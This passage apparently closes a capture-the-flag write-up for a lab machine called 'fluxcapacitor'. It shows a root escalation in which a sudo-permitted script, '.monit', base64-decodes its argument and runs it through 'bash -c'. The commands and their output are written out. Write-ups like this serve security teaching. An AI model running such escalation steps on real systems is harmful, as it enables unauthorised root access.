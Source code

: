 So from what it looks like `.monit` takes in a parameter `cmd` which you can then pass in a `base64` encoded string of whatever you want (your command), then it `base64 decodes` the value & passes the result into `bash -c $value`. We can very easily use this script to get ourselves a root shell with little effort. 

```bash
nobody@fluxcapacitor:/home/themiddle$ echo "/bin/bash" | base64
L2Jpbi9iYXNoCg==
nobody@fluxcapacitor:/home/themiddle$ sudo /home/themiddle/.monit cmd L2Jpbi9iYXNoCg==
Trying to execute L2Jpbi9iYXNoCg==
```

Root :D 

```bash
root@fluxcapacitor:/home/themiddle# id
uid=0(root) gid=0(root) groups=0(root)
root@fluxcapacitor:/home/themiddle# cd /root
root@fluxcapacitor:~# cat root.txt
...[redacted]...
```

Hope this helped :D 